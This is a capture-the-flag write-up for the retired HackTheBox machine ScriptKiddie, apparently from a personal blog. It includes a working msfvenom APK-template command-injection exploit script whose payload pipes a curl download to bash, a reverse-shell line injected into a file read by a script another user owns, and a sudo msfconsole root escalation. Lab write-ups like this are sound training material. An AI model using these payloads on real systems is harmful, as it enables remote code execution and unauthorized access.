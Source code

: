 ```yaml
---
title: HackTheBox - ScriptKiddie Writeup
subtitle: Here's my writeup for the RETIRED machine ScriptKiddie, Which is an Easy Linux machine!
# Summary for listings and search engines
summary: Here's my writeup for the RETIRED machine ScriptKiddie, Which is an Easy Linux machine!



# Link this post with a project
projects: []

# Date published
# Date published
date: "2021-06-05T00:00:00Z"

# Date updated
lastmod: "2021-06-05T00:00:00Z"
# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**HackTheBox**]'
  focal_point: ""
  placement: 2
  preview_only: false

authors:
- admin


tags:
- HackTheBox


---
```







# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 
```bash
sudo nmap -sC -sV 10.10.10.226 -v
```

```bash
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
```

<img src="nmap.png">

We have two ports open

- 22/SSH :  OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
- 5000/HTTP :  Werkzeug httpd 0.16.1


--> Service versions seem to be up-to-date, we don't really focus on them



## <p style="color:Green">Web Server </p> 

<img src="web.png">

--> We have so many user inputs, first thing we should check if there is any command injections as it seem to be using linux binaries which can lead to RCE


<img src="web1.png">
<img src="web2.png">
<img src="web3.png">


--> It seems that the input is hardcoded, taking into considerating that this is an easy box i don't that we should try to bypass these filters and just move on





# <p style="color:RED">Foothold & User flag </p>

---

Another interesting thing is the file upload that takes a msfvenom template!

Searching a bit in google can lead us to what we want! We can craft a Android payload template and get a shell on the box

> https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md


Payload:

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b32encode

payload = 'curl http://10.10.14.54:1337/x|bash'


payload_b32 = b32encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b32} | base32 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```


Let's execute the apk file

<img src="apk.png">
<img src="ff.png">
And set a listener to get a reverse shell on the box

<img src="rev1.png">

Let's stabilize our shell

<img src="stable.png">


# <p style="color:RED"> 2nd USER & Root Flag </p>

---

Looking a bit in the files, we can find an interesting file owned by pwn user!




<img src="pwn.png">

Basically it takes the ips from the hackers file and run nmap on it!

The idea is to inject a malicious command instead of an ip

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1' #" >>hackers
```

> We should add two spaces because of the | cut -d' ' -f3- |

<img src="we.png">

We got a shell as the user pwn!

Let's check if he can run anything as root


<img src="sudo.png">


We can run msfconsole as root! basically a free win :D!

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```


<img src="root.png">

And we can execute commands as root


<img src="root1.png">

And we rooted the box!

## Thanks for reading hope you enjoyed it!


